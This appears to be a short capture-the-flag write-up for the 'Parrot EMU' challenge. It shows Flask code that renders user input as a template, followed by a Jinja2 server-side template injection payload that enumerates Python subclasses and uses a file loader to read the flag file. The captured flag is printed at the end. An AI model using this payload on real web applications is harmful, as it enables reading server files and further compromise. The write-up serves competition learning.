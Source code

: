```yaml
---
created: 2024-07-06T23:50
updated: 2024-07-07T03:57
title: Parrot EMU
---
```


```python
try:
	result = render_template_string(user_input)
except Exception as e:
	result = str(e)
```

Well, its template injection time.
## Template Injection

`{{''.__class__.__base__.__subclasses__()}}`

```
`[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, ...

<class '_frozen_importlib_external.FileLoader'>, 
<class '_frozen_importlib_external._NamespacePath'>, 
...
<class 'werkzeug.debug.console.Console'>, <class 'werkzeug.debug.tbtools.Line'>, <class 'werkzeug.debug.tbtools.Traceback'>, <class 'werkzeug.debug.tbtools.Group'>, <class 'werkzeug.debug.tbtools.Frame'>, <class 'werkzeug.debug._ConsoleFrame'>, <class 'werkzeug.debug.DebuggedApplication'>]`
```

`a.findIndex(a=>a.includes("File")) = 99`

`{{'abc'.__class__.__base__.__subclasses__()[99]("flag", "flag").get_data("flag")}}`

`DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`

Simple stuff.
